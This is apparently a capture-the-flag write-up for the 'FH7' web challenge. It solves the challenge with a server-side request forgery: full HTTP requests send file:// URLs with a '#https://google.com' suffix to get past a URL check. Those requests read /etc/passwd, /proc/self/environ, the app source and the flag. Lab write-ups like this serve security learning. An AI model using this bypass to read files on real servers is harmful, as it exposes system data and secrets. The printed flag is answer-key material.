

# FH7

> Category: Web Exploitation🕸️


## 🔍 Overview

Visiting the page will show us the information about Faisal Halim, a Professional Malaysian Footballer:


## ✨ Solution

Try to view the request made using **Burp Suite**.


Looks interesting here. Check the <code>POST /fetch-info</code> and try to change the url:
```
POST /fetch-info HTTP/2
Host: fh7.bahterasiber.my
Content-Length: 78
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Chromium";v="139", "Not;A=Brand";v="99"
Content-Type: application/json
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: */*
Origin: https://fh7.bahterasiber.my
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://fh7.bahterasiber.my/
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

{"url":"file:///etc/passwd"}
```


But this will not work. So we need to append the **"#"** at the end to bypass this:
```
POST /fetch-info HTTP/2
Host: fh7.bahterasiber.my
Content-Length: 78
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Chromium";v="139", "Not;A=Brand";v="99"
Content-Type: application/json
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: */*
Origin: https://fh7.bahterasiber.my
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://fh7.bahterasiber.my/
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

{"url":"file:///etc/passwd#https://google.com"}
```


Then, can try to read <code>/proc/self/environ</code> to reveal some information:
```
POST /fetch-info HTTP/2
Host: fh7.bahterasiber.my
Content-Length: 78
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Chromium";v="139", "Not;A=Brand";v="99"
Content-Type: application/json
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: */*
Origin: https://fh7.bahterasiber.my
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://fh7.bahterasiber.my/
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

{"url":"file:///proc/self/environ#https://google.com"}
```



After knowing it is a **Python app**, check the source code to get the flag path. It is usually named as <code>app.py</code> in <code>/app</code> directory:
```
POST /fetch-info HTTP/2
Host: fh7.bahterasiber.my
Content-Length: 78
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Chromium";v="139", "Not;A=Brand";v="99"
Content-Type: application/json
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: */*
Origin: https://fh7.bahterasiber.my
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://fh7.bahterasiber.my/
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

{"url":"file:///app/app.py#https://google.com"}
```


Then, we can retrieve the flag:
```
POST /fetch-info HTTP/2
Host: fh7.bahterasiber.my
Content-Length: 78
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Chromium";v="139", "Not;A=Brand";v="99"
Content-Type: application/json
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: */*
Origin: https://fh7.bahterasiber.my
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://fh7.bahterasiber.my/
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

{"url":"file:///75f6413dec355f32c8a7301bba0d1792/flag.txt#https://google.com"}
```


<details><summary><b>🏳️Flag</b></summary>
<b>3108{9a2b1b3e5c36a56cd5f2ff8a0b5eab3e}</b></details>

## 📚 References:

- https://support.google.com/richmedia/answer/190941?hl=en#:~:text=In%20a%20URL%2C%20a%20hash,of%20the%20page%20or%20website

- https://en.wikipedia.org/wiki/File_URI_scheme